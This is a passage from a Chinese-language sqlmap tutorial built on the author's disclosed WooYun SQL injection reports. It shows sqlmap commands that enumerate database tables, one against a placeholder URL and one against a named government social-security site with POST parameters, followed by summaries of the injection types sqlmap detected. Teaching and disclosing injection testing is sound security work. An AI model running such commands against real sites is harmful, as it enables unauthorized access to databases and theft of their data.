 # SQLMAP 实例COOKBOOK

提醒：本文章中的所有例子均已通过乌云平台通知厂商，并按照流程已经公开（未公开的会有标识并且隐藏信息，请等待公开后自行查看），请在阅读文章的同时不要对文中所列漏洞重复测试，谢谢

0x00 概述
-------

* * *

本文章面向 已经理解SQL注射基本原理、已经配置好并了解SQLMAP基本命令、但缺乏实践的入门者。在文章中总结了自己在乌云上发布的近三十个SQL注射漏洞，对于SQLMAP在不同场景下的应用给出了 实例总结，对于SQLMAP的基本介绍、安装配置、命令手册请大家自行百度。

SQL注射原理传送门[http://drops.wooyun.org/papers/59](http://drops.wooyun.org/papers/59)

SQLMAP用户手册传送门[http://drops.wooyun.org/tips/143](http://drops.wooyun.org/tips/143)

0x01 从HelloWorld开始思考
--------------------

* * *

[WooYun: WanCMS 多处SQL注射（源码详析+实站演示）](http://www.wooyun.org/bugs/wooyun-2014-049372)

形如：

```
C:\Users\Administrator>sqlmap.py -u "http://?a=b" –tables

```

[WooYun: 吉林市人力资源和社会保障局 Oracle injection](http://www.wooyun.org/bugs/wooyun-2013-045782)

```
root@kali:~# sqlmap -u "www.jljl.lss.gov.cn/ybcx.asp" --data="yblb=%D2%BD%C1%C6%B1%A3%CF%D5&ybxm=123&ybsfzh=123" --tables

```

相信大家都已经倒背如流，烂熟于心。

### 例子a)

SQLMAP首先测试a（唯一的参数），检测结果如下

```
Type: boolean-based blind（heuristic test 基本测试就能发现） 
Type: UNION query      （在至少发现其他一种注射存在时会扩大测试范围，原始是1-10，而这里测试到了20，这是自动扩展的） 
Type: AND/OR time-based blind （正常等级测试即可发现）

```

效率很高，检测很准确，跑表成功，一切都很好，这是一个完美的HelloWorld

### 例子b)

SQLMAP首先测试yblb，没有发现注射，然后检测ybxm，结果如下:

```
Error-based（直接会告诉你是oracle，然后根据提示测试会很顺利）
Union query（正常测试就能测试出来）
And or time based（正常测试就能测试出来）

```
